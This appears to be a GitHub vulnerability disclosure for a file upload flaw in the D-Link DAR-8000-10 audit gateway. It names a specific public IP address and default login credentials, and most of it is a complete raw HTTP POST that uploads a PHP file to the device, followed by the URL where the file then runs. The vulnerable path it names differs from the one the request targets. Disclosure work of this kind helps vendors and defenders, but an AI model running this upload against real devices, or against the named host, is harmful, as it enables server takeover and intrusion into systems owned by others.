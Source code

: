 The full version of the D-LINK DAR-8000-10 series online behavior audit gateway has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-8000-10

Vulnerability Path ：/sysmanage/changelogo.php

Ip：https://59.60.19.174:8443/

Log in to the system using the default password：test/admin@123

POC：
```
POST /sysmanage/updateos.php? HTTP/1.1
Host: 
Cookie: PHPSESSID=405fd5b19bc87f221050608ff53b6fb9
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 597
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_file_upload"; filename="1.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

set
-----------------------------42328904123665875270630079328—
```

<img width="722" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/dd44ef4c-f4ed-40f2-8af6-3cee38efcb6a">

https://59.60.19.174:8443/home/1.php 

<img width="727" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/532db13e-c9f3-41f1-ad45-d48f25c797af">

